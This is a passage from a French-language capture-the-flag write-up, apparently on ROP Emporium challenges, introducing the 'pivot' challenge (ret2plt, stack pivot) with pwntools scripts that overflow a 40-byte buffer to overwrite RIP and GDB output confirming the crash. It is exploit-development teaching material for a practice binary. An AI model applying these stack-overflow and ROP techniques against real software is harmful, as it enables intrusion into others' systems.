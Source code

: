 ~~~python

p.recvuntil(">")
p.sendline(payload)
p.interactive()

~~~

Les rop chain sont toujours plus complexes mais nous montrent qu'il est primordial de lire entre les lignes pour trouver des détails intéressants à exploiter. 

## pivot 

Cette fois ça ne rigole plus, deux nouvelles techniques d'un coup : 
- ret2plt 
- stack pivot 

Ce binaire offre tout juste la place pour "pivoter" et déplacer le rop chain dans un autre espace mémoire. 
L'idée ici est de faire un exploit en deux parties, l'une avec le pivot et l'autre avec la partie réellement exploitation. 

### Smash the stack 
Comme chacun des challenges, nous partons sur une valeur de bourrage de 40 octets. 
Un test rapide au debugger nous permet de confirmer la réécriture de `RIP`: 

~~~python
#!/usr/bin/env python

from pwn import *

junk = "A"*40

p = process("./pivot")

# debug
pid = util.proc.pidof(p)[0]
print "The pid is: "+str(pid)
util.proc.wait_for_debugger(pid)

payload = junk
payload += p64(0xdeadbeef)


p.recvuntil(">")
p.sendline("test")
p.recvuntil(">")
p.sendline(payload)
p.interactive()
~~~
une fois lancé et attaché dans GDB :
~~~bash
Stopped reason: SIGSEGV
0x00000000deadbeef in ?? ()
gdb-peda$ i r rip
rip            0xdeadbeef          0xdeadbeef
gdb-peda$
~~~
